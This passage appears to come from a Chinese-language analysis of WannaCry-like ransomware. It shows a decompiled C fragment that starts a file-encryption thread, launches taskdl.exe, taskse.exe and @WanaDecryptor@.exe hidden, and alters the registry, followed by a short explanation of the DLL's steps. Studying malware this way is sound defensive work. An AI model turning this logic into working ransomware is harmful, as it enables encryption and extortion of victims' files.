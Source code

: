 ```c

hThread_3 = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)EncryptAllFiles, 0, 0, 0);

// 加密所有文件  

Sleep(100u);  

hThread_4 = CreateThread(0, 0, StartTaskdl, 0, 0, 0);

// 每隔三秒以隐藏的方式启动taskdl.exe  

if ( hThread_4 )  

CloseHandle(hThread_4);  

Sleep(100u);  

hThread_5 = CreateThread(0, 0,(LPTHREAD_START_ROUTINE)StartExeAndSetReg, 0, 0, 0);

// 每隔三秒 启动taskse.exe和@WanaDecryptor@.exe并且修改注册表  

if ( hThread_5 )  

CloseHandle(hThread_5);  

Sleep(100u);  

RepeatOperation(); // 创建批处理脚本
加密器 Read_Me@.txt 加密其他用户下的文件 

if ( hThread_3 )  

{  

WaitForSingleObject(hThread_3, INFINITE);  

CloseHandle(hThread_3);  

}  

return 0;  

}  
```

Dll 文件主题包括了病毒的所有操作：

1.  初始 临界区，缓冲区，路径，字符串并将c.wnry读到内存

2.  建立 公钥，私钥文件，并加密所有文件

3.  每隔三秒 隐藏方式启动 taskdl.exe taskse.exe 等文件
